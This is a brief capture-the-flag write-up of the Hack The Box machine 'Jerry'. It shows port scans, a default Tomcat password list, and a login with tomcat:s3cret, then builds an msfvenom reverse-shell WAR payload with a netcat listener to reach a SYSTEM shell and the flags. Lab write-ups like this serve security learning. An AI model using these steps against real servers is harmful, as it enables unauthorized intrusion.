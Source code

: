 ```yaml
---
title: "Jerry HTB"
date: 2024-07-16T16:38:48-07:00
draft: false
---
```


This is a test post I want to explore how some things translate fom my Obsidian volt with minamal edits. 

```sh
 IP=10.10.10.95

nmap -Pn -p- -oN nmap-p $IP --min-rate=1000

PORT     STATE SERVICE
8080/tcp open  http-proxy


 nmap -Pn -p 8080 -sCV -v -oN nmap-sCV $IP

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```

Getting possible default passwords with 
```sh
 cp ~/SecList/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt .
 cat tomcat-betterdefaultpasslist.txt
admin:
admin:admanager
admin:admin
ADMIN:ADMIN
<snip>
``` 

![tomcat password](/credds-jerry.png)

With a field login attempt with `admin:admin` with burp suite to get the formatting for hydra we got an 403 page with this information in it. So next tried `tomcat:s3cret` and logged in.

looking at the file upload we see that it only takes war files so the best way i am finding is to 

````sh
msfvenom -p java/shell_reverse_tcp lhost=tun0 lport=4321 -f war -o pwn.war

# and 

nc -lvnp 4321

# we could also use metainterpritor 

````

then opend the page and in the nc window we get 
```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
700<snip>d00

root.txt
04a<snip>90e

```
